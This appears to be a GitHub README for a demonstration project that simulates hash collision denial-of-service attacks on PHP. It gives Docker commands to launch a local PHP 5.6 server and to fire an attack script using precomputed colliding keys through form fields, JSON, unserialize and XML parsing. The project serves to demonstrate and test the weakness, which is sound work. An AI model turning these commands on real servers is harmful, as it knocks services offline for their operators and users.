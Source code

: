 # Simulate Hash Collision Attack on a PHP Server

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

Nowadays every web application uses a JSON API, which is still vulnerable to complexity attacks if you use PHP.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Run the server

```
docker run -it --rm -p 8080:80 --name php-dos-attack-server -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.

Make one request to the webserver running in the docker container.

```
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt
```

Make a normal request to compare with the collision attack.

```
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --no-collide
```

Make 100 requests to a fake JSON API.

```
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

### Create smaller test set

The file `collision_keys` contains precomputed colliding keys. To create
a smaller set of keys for easy testing you can create a new file:

```
head -n 10000 collision_keys.txt > collision_keys_small.txt
```

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it --rm --name php-dos-attack-array-test \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```
docker run -it --rm --name php-dos-attack-array-test \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```
docker run -it --rm --name php-dos-attack-array-test \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

Run tests when parsing XML with elements name that should collide with each other
into a class with `xml_parse_into_struct`:

```
docker run -it --rm --name php-dos-attack-array-test \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/xml_parse_into_struct.php collision_keys.txt
```

## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```
docker run -it --rm --name php-dos-attack-array-test \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)
